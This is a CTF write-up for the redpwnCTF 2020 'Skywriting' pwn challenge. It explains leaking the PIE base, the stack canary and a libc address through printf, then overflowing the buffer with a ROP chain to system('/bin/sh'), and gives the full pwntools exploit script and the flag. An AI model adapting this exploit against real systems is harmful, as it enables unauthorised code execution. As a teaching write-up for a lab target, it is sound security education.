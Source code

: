 # Skywriting
Pwn, 480

> It's pretty intuitive once you disambiguate some homoglyphs, I don't get why nobody solved it...
> 
> nc 2020.redpwnc.tf 31034

From the given Dockerfile, it's running on Ubuntu 18.04, which uses `libc.2-27.so`.

`pwn checksec skywriting` gives:
```
[*] '/home/boshua/skywriting/bin/skywriting'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

All protections, yikes.

Open in Ghidra.

There's a check in the beginning to see if you entered a `1` to the first prompt. If not, you got a fake shell. I suppose this was used to include `system` in the PLT but I didn't use it anyway.

If you enter the strcmp'd string, `notflag{a_cloud_is_just_someone_elses_computer}`, to the second prompt, you see some suspicious characters before the `??`.

The program loops until the strcmp returns 0. It repeatedly reads in to the same buffer, so any data previously in the buffer will remain there so long as it's not overwritten by new data.

There's a pretty obvious buffer overflow, as `read` reads up to 0x200 characters, but there is a stack canary in place so I leaked that.

Remember, `printf` prints up until nullbytes. So, I can leak as much as I want by filling the buffer up to where I want to leak from.

I first leaked the PIE base, as that's where the gadgets are offset from.

Some gdb inspection reveals that there is a PIE pointer on the stack, and I needed 88 characters in the buffer to print it. I sent 87 "A"s, as there's still a newline (0xa) at the end of the input. Then, I subtracted an offset I found in GDB from it and got the actual PIE base.

Next, I leaked the canary, which is located right after the buffer. I filled up the buffer with 136 "A"s and a newline, leaking the canary.

You can't only send 135 "A"s and a newline, because the last byte of the canary ends in a 0x00 (probably to prevent these kinds of attacks from happening).

Luckily, the last byte of canaries are `0x00`.

Remember to replace the last byte of the receieved canary with `0x00` (it'll be a `0xa` from the newline).

After that, I leaked libc. It turns out there is a libc pointer which I leaked with 151 "A"s and a newline. Then I calculated the libc base using an offset I found in GDB, allowing me to ret2libc.

Finally, I overwrote the saved instruction pointer with a ROP chain which eventually calls system, and also kept the canary unmodified using the leaked canary.

On the last iteration, I exited out of the loop. So I sent the string to get strcmp to return 0, `notflag{a_cloud_is_just_someone_elses_computer}\n`.

There should be a `chr(0)` at the end of the string, so strcmp knows when to stop comparing.

Strcmp will see:
`notflag{a_cloud_is_just_someone_elses_computer}\n<null byte>\n`, and will only compare up to and including `notflag{a_cloud_is_just_someone_elses_computer}\n`.

So, the loop will terminate, and the program will load the saved RIP into RIP, which is now a ROP chain. It follows the execution, and spawns a shell.

```python
from pwn import *


p = remote("2020.redpwnc.tf", 31034)
#p = process("./bin/skywriting")
e = ELF("./bin/skywriting")
LIBC = ELF("./libc-2.27.so")


'''
gdb.attach(p, """pie break * 0x9ad
pie break * 0xa90
pie break * 0xb13
pie break * 0xb55
""")
'''

p.recvuntil("? ")
p.sendline("1")

# begin exploit
p.recvuntil(": ")

# leak pie base
p.sendline("A"*87)
print("sent pie leak")

dat = p.recvuntil(": ").lstrip("A").strip()
#print("dat", dat)
pie_leak = u64(dat[:6].ljust(8, "\x00"))

print("pie_leak", hex(pie_leak))

pie_base = pie_leak - 0xbbd

print("pie_base", pie_base)

# leak canary
p.sendline("A"*136)
print("sent canary leak")
dat = p.recvuntil(": ").lstrip("A")
#print("dat", dat)

canary = u64(dat[:8].ljust(8, "\x00"))


canary = list(hex(canary)[2:])
canary[-1] = "0"
canary = int(''.join(canary), 16)

print("canary", hex(canary))
#p.interactive()

# leak libc address
exploit = ""
exploit += "A"*151
p.sendline(exploit)
print("sent rbp exp")

dat = p.recvuntil(": ").lstrip("A").strip()

leak = u64(dat[:6].ljust(8, "\x00"))
print("leak", hex(leak))

LIBC.address = leak - 0x21b97

print("libc address", hex(LIBC.address))


# exploit bof

ret_g = pie_base + 0x78e
pop_rdi_ret_g = pie_base + 0xbd3

libc_system = LIBC.sym["system"]
binsh_str = next(LIBC.search("/bin/sh"))

print("ret", hex(ret_g))
print("pop rdi", hex(pop_rdi_ret_g))
print("libc system", hex(libc_system))
print("binsh str", hex(binsh_str))

exploit = ""
exploit += "A"*135 + chr(0)
exploit += p64(canary)
exploit += p64(0) + p64(ret_g) + p64(pop_rdi_ret_g) + p64(binsh_str) + p64(libc_system)

p.sendline(exploit)
print("sent bof")

# break out of loop
p.recvuntil(": ")
exploit = ""
exploit += "notflag{a_cloud_is_just_someone_elses_computer}\n"
exploit += chr(0)

p.sendline(exploit)
print("sent termination")

p.interactive()
```

Flag: `flag{a_cLOud_iS_jUSt_sOmeBodY_eLSes_cOMpUteR}`